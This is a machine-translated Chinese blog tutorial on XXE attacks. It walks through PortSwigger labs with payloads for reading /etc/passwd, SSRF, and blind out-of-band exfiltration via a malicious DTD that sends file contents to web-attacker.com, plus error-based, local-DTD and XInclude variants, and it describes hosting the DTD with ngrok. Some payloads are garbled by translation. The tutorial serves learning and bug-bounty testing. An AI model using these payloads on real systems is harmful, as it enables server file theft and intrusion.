

# XXE:从零到英雄

> 原文：<https://infosecwriteups.com/xxe-from-zero-to-hero-b38118750556?source=collection_archive---------0----------------------->

各位黑客朋友，你们好，我希望你们都做得很好，并且学到了一些新东西:)。正如我在我的 [*RECON* 博客](https://newrouge.medium.com/recon-for-dummies-632f8f50ce12)中所说，我将会写下这周我所学到的东西。这个星期我尝试了很多事情，比如提交了一些 bug，但是被骗了。尝试设置 genymotion 进行 Android 测试，但也没有成功。不得不重新安装 windows 和 ubuntu 以及我所有的工具，不知何故我搞乱了我的 c 盘，破坏了我的启动过程。总之，真正完成的事情是我学习了 XXE，我有足够的信心，我可以教一两件事给那些想学习 XXE 的人。我会写下我是如何学到了什么。让我们深入研究一下。

现在 XXE 代表 *XML 外部实体。*首先要理解的一件小事是，只有在客户端或服务器端处理 XML 数据的应用程序中，XXE 才是可能的，还有一件事要注意，docx、xlsx、pptx 都是 XML 文件类型。XXE 包括利用应用程序如何处理其输入中包含的外部实体。您可以使用 XXE 从服务器提取信息或访问恶意服务器。XXE 也可以通过文件上传被利用。如果感觉太多了，放松下来，继续读下去。

**XXE 漏洞为什么会出现？**

如果应用程序使用 XML 在浏览器和服务器之间传输或存储数据，而 XML 规范包含各种潜在的危险特性，并且标准解析器支持这些可能导致 XXE 的特性。

在了解 XXE 之前，

# **让我们了解一下 XML、实体和 DTD。**

> XML 代表可扩展标记语言

XML 看起来有点像 HTML，但不像 HTML XML 没有预定义的标签，我们可以定义自己的标签。还有一个重要的注意事项，在 HTML 中我们甚至可以不关闭一些标签，但它仍然可以工作。例如，没有关闭标签,

# 标题也可以工作。但是在 XML 中，所有的标签都需要关闭。

## XML 实体:

每当我们想用 xml 表示一些数据时，我们将使用 XML 实体，因为图片中的 *add1 & add2* 是 XML 实体，存储的数据是一些地址。如果你有一些编程背景，你可以把它想象成一个变量，在其中存储一些数据，每当我们在输出中需要这些数据时，我们通过"&ENTITY _ NAME；调用这些实体(变量)。在这里你可以看到在第 11 行我们通过 *&调用了 add 1；*现在，詹姆斯的地址将与他的姓名和电话号码一起显示出来。

## DTD(文档类型定义):

DTD 包含的声明可以定义 XML 文档的结构、它可以包含的数据值的类型以及其他项目。

DTD 可以完全独立于文档本身(称为“内部 DTD”)，也可以从其他地方加载(称为“外部 DTD”)，或者是两者的混合。

在上面的例子中，DTD 是根据应用程序的客户结构定义的。它是内部 dtd 的一个例子，因为 add1 和 add2 的值是从 dtd 本身加载的，而不是从外部源(URL/URI)加载的。

如果一个 DTD 试图从 DTD 外部加载一些数据，那么它就是一个外部 DTD，在这种情况下，使用一个*系统*关键字，指示 DTD 从下面的 URI 加载数据。

例如，从一些外部 URL 加载数据

> `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://normal-website.com/some-data" > ]>`

或者从服务器本身加载数据。

> `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///path/to/file" > ]>`

现在，每当在 XML 中调用&xxe 时，都会加载这些 URI 中的数据以响应应用程序。

现在，我们将尝试滥用这些实体特性来从外部源加载数据。(XML 外部实体，即 XXE)

现在 portswigger 提供了很好的实验来测试您的学习。我将遵循从基础实验室到高级 xxe 注射的路径。

PS:我不会写这些实验的答案，那是你们自己的事情。已经有许多视频和博客为这些实验室提供了解决方案，所以没有必要给出解决方案。你自己阅读、学习和开发。

现在，如果 xxe 可用，您可以实现哪些目标:

>从服务器中过滤数据，如读取/etc/passwd 等的内容。

>通过告诉服务器从内部 URL 加载数据来实现 XXE 的 SSRF，因为请求来自服务器本身，您将能够点击内部 URL。

>通过向您的服务器发出请求来过滤数据(带外请求)，如果应用程序不允许常规实体(例如&xxe)或不显示您的 xxe paylaod 的任何输出，这意味着这是一个**盲 xxe** ，您通过发出带外请求来确认。

>迫使应用程序导致错误，并加载您的 xxe 输出以及系统错误。

在继续之前，我想让你们看一下 STOK 的视频，无论如何我都不会宣传 pentesterlab。我只是想让你们看看他解决 XXE 习题的部分，因为我认为在头脑中有一些视觉总是好的。

STOK·彭特斯实验室

从这个视频中，你会看到我们如何介绍我们自己的标签和实体，并调用这些实体。如果你什么都不懂，不要介意，只要喝杯咖啡，像看其他 youtube 视频一样看就行了。在这次 XXE 之旅中，我至少看了 5-6 遍。

PS:不要想别的，看看他是如何定义 XML 实体& DTD 的。就是这样。

# 利用 XXE 检索文件

实验 1:[https://ports wigger . net/we b-security/xxe/LAB-exploining-xxe-to-retrieve-files](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files)

在这里，您将看到应用程序接受 xml 数据并将其处理为。所以让我们检查一下它是否脆弱。

(我假设您知道如何拦截流量和测试请求流。如果不是先学那个。)

让我们介绍一下 XML 数据中的 DTD

`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>`

这里定义了一个 DTD，它从外部源为我们的变量/实体 xxe 加载一些数据。SYSTEM 是一个关键字，file://类似于 http://

这里的 DTD 指示 XML 解析器从/etc/passwd 加载数据，并在调用&xxe;时显示数据。

你可以从服务器上获取网络用户可以访问的任何数据。比如/etc/hostname 等。如果只是 linux 服务器，你可以在 file://of 之后给出任何 linux 路径。

# 利用 XXE 实施 SSRF 袭击

> `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>`

PS:你可以选择任何名字来代替 foo，这不是语法的一部分。

在此 DTD 中，xxe 实体试图从内部 url 加载数据，该 url 可以是任何内容。这样你甚至可以加载服务器的云信息，如果它使用一些云服务。如果你对 SSRF 没有一些基本的了解，我建议你从这个令人敬畏的资源库中学习并获取 paylaods。

 [## swisskyrepo/payloads all things

### 服务器端请求伪造或 SSRF 是一个漏洞，其中攻击者强制服务器在…上执行请求

github.com](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md) 

# 盲目的 XXE 漏洞

这意味着应用程序易受攻击，但在其响应中不返回任何已定义的外部实体的值，因此不可能直接检索服务器端文件。只是不能直接读取/etc/passwd 的内容。相反，您必须加载/etc/passwd 的内容，并通过带外请求将其作为参数发送到您的服务器。在这些实验中，portswigger 提供了一个漏洞利用服务器。

我认为 portswigger 使事情变得有点复杂，如果你能从他们的解决方案中了解到，他们倾向于使用 burp collborator 和 exploit server，然后做一些棘手的事情，你非常欢迎遵循这种方法。我在这里谈论 XXE，而不是你如何利用它。

我喜欢保持事情简单，所以我用漏洞服务器做的一切只是为了传递有效载荷并在我的漏洞服务器日志中获得输出。

现在，在服务器上显示您的工资之前，您应该首先确认应用程序是否容易发出带外请求。这可以通过在 XML 实体中给出一个简单无害的服务器 url 来实现，并监控是否有来自受害服务器的 GET 请求。

现在实际部分:只需在 xml 主体中提交这个 DTD

> `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>`

我希望现在你一定已经明白这里发生了什么。定义了一个 DTD，它有一个 entityy xxe，向您的漏洞利用或 burp collab 服务器发出请求。只需调用这个 xxe enity 并在 collaborator 中等待 DNS 和 HTTP 请求。在利用服务器的情况下，您只能看到 get 请求，而不能看到 DNS 请求。

注意:只有当你有自己的 DNS 服务器在你的 ip 上运行时，DNS 查找才是可见的。出于安全原因，portswigger 不允许与外部服务器进行交互。所以你只能用他们的服务器。

**参数化实体:**

有时，XML 解析器或应用程序本身会阻止常规实体的使用，这意味着您不能定义一个名为 xxe 的实体，然后通过&xxe;调用它

在这种情况下，您必须使用可以在 DTD 中引用的参数实体。

XML 参数实体的声明在实体名称前包含百分号字符:

`<!ENTITY % xxe "my parameter entity value" >`

要引用此实体，您将使用% xxe(呼叫实体)

要检查带外请求，DTD 将与参数实体类似:

`<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>`

注意:这里实体的调用只在 DTD 内部完成。

您将看到受害者服务器与您的服务器之间的交互。

# 利用盲 XXE 泄漏带外数据

您将在实体中加载敏感数据，并将其作为参数发送到您的服务器 url，因为应用程序没有为 xxe 返回任何响应。

因此，在检测到盲 XXE 后，我们将从受害者服务器中提取一些数据。这是一个多步骤的过程，可以用两种方法来完成。我们先来了解一下 portswigger one。

1.  我们将向已经托管了 dtd 文件的端点上的漏洞服务器发出请求。
2.  现在，这个 dtd 文件包含恶意 XML 代码，在解析时加载敏感数据，并使用该数据向您的服务器发出请求。

只需将这个 DTD 放入 XML 数据中。

`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>`

用您的漏洞利用服务器 url/漏洞利用替换该 URL

用这个% xxe 调用您的实体将向您的漏洞利用服务器发出请求，该服务器托管一个包含以下内容的 dtd 文件

`<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;`

用您的漏洞服务器 url 替换 URL。

1.  首先，一个文件参数实体请求 xml 加载/etc/passwd 的内容

2.然后定义第二个名为 eval 的实体，它的值本身是另一个实体，所以我们将% HTML 编码到。妥善保管引号和括号。

3.现在调用%eval，它用数据作为 url 的参数动态形成 url

4.% ex filter 最终向已形成的 url 发出请求。

您将在服务器日志中收到/etc/passwd 的内容。

**另一种方法是:**

>% dtd；】>

这里我们定义了两个实体。一个是加载文件，另一个是向带有恶意 dtd 文件的攻击者服务器发出请求。

evil.dtd:

> " >
> 
> % all

这里的区别在于，在 dtd 文件中我们并不要求加载哪个文件，在 xml 请求中已经这样做了，其次，动态创建的 *send* 实体不是参数化实体，需要在 xml 请求中用 *& send 调用；*为了将数据发送给攻击者的服务器。

## 通过错误消息泄漏:

如果应用程序在响应中显示发生的每个错误，那么我们可以在 xml 解析中强制错误，应用程序将在我们的 xxe 输出中显示发生了什么错误。

例如

> ！实体% eval " <！实体&# x25；错误系统“file:///non exist/% file；”>>
> % eval；
> %误差；

这里我们首先调用恶意服务器上的外部 dtd(不会再写了)

1.  现在恶意的 dtd 加载/etc/passwd 的内容

2.动态创建一个 URL/不存在/%文件，该文件将/etc/passwd 的数据作为参数加载到其中。

3.请求 url 时会导致错误，因为/exist/不是有效的路径。

因此最终输出包含错误未找到/不存在/

# **B** 通过重新利用本地 DTD，lind XXE:

想象一下正常的 XXE 是不可能的，只有盲目的 xxe 是可能的。即使在盲 XXE 中，带外请求也会被防火墙阻止。

那么解决方案是什么呢？一些应用程序可能会阻止 HTTP 请求，以避免带外连接。在这种情况下，您需要在您的服务器上查找 DNS。为了监控 DNS 查找，我们需要一个 VPS。如果你能有一个很好的 VPS，并让你的 VPS 为 XXE 开发所用，检查它的日志，你可以谷歌它如何做。

如果连 DNS 查找都被禁用了，或者你没有 DNS 服务器，那该怎么办呢？因此，在盲 XXE 和没有带外请求的情况下，我们可以重新调整服务器上本地 DTD 的用途。

这意味着我们找到了一个已经在服务器上可用的 DTD。(每个 window 和 linux 机器都有一些 dtd，其代码大部分是公开的)。

我们选择发现的 DTD 的一个实体&重新定义它的结构，并故意在其中引起一个错误，将这个错误与我们的 xxe 数据一起包含在服务器响应中。

所有的 XML 实体都是常量，如果我们定义了两个同名的实体，那么 XML 将解析第一个。所以在我们的例子中，我们给实体的定义优先于已经在服务器的 dtd 中定义的定义。

`<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>`

这里看起来很复杂，但我会为你分解它。

1.  DTD 文件被加载到已经存在的 local_dtd 变量中。
2.  我们从这个 DTD 中挑选一个名为 custom_entity 的实体
3.  我们通过在 custom_entity 中动态创建另一个实体来加载/etc/passwd 的内容，从而更改了这个 custom _ entity 的内容。
4.  另一个实体是在其中创建另一个名为 error 的实体来导致错误。

一切都是 HTML 编码的，因为它们都在 custom_entity 的定义中。你可以注意到 custom_entity 中的实体与我们在前面的 XXE 中写的错误消息相似。不同的是，它都是一个自定义实体和 HTML 编码的定义。

# 寻找 XXEs 的一些有趣的地方:

# XInclude 攻击:

这种攻击的概念很简单，如果应用程序不使用 XML 将数据从客户端传输到服务器会怎样。所以你不能写 ant DTD，盲 xxe 也是不可能的。因为在这里您根本无法控制 XML。

但是如果服务器在后端处理用户在 SOAP 请求中提供的数据呢？SOAP 请求也使用 XML 并解析 XML 实体。

在这种情况下，我们可以使用 XInclude，它用于从其他较小的独立 XML 文档构建大型 XML 文档。

所以我们可以提供一个 xml 形式的输入，它将在后端被解析为 XML。

当然，你无法知道哪个参数是真实的，所以你必须测试哪个参数是易受攻击的，并反馈回答案。

`<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>`

# XXE 通过文件上传进行攻击:

请留意应用程序接受哪些文件类型，以及它是否会被滥用于 xxe。像 docx，xlsx 表，ppts 他们也使用 xml。

如果应用程序接受 png 和 jpg 文件，它也可能接受 scg 文件。

通过 svg 文件查找 xxe。做 Portswigger 实验。

**XXE 按内容类型:**

这更像是测试应用程序是否接受 xml 和文档，如果接受，那么继续对应用程序进行 xxe 测试。

如果您还记得 STOK 是如何将内容类型更改为 text/xml 并由应用程序对其进行解析的，这意味着它是检查 xxe 的继续标志。

现在，如果你像我一样，没有 VPS，并想在真正的应用程序上测试带外请求，并通过在你的服务器上托管恶意 dtd。我可能会给你留些东西:

1.  在您的系统上安装 ngrok。

>要利用带外请求，您需要的是公共可访问的 ip，为此我们将使用 ngrok。

2.将 dtd 文件更新到本地机器上

>它类似于 python simplehttpserver 80 什么的，但是不要写这些。

>只需安装 updog 和

> pip3 安装更新

根据您的需要编写一个恶意的 DTD，然后通过输入

> 更新日志

updog 的默认 ip 是 9090，您可以将其更改为任何端口。

现在，当我们托管我们的 DTD 文件时，我们需要使它可以公开访问。

> ngrok http 9090

它将为您创建一个唯一的 URL，该 URL 可从互联网上公开访问，并且在加载时会解析到您的本地服务器和端口 9090。

只要用你的 ngrok url 写恶意的 DTD，用 updog 把它托管回同一个端口 9090。如果你得到一个错误的地址已经被使用。只需强制终止该进程，并在 9090/或您选择的任何端口上使用 updog 重新启动它。

如果 HTTP 请求被阻止，它仍然不能解决用 DNS 查找检测 XXE 的问题。在这种情况下，VPS 是必须的，对此我们无能为力。

嘿，但是您现在已经完全准备好测试 XXE 与外部实体，以及盲 xxe 与带外请求或基于错误的 xxe 或 Xinclude xxe 或文件上传 xxe。

我希望你能从这篇博客中学到一些东西，你不可能一天就掌握它，所以把它作为一个指南，投入至少一周的时间来学习它。反复阅读博客，解决所有 XXE 实验室，谷歌你不懂的东西。你仍然认为这不清楚，只是在推特上平我，我会帮助你。[*@ avinashkroy*T3*。*](https://twitter.com/Avinashkroy)

学了 xxe 之后，该找节目了。阅读披露的报告，看看别人在哪里，他们是如何发现 XXE 哪些功能是易受攻击的。祝你好运，你祝我好运:)。从明天开始，我们要在真正的目标上寻找 XXE。如果我发现了什么漏洞，我会告诉你们的。

谢谢，黑客快乐！&注意安全！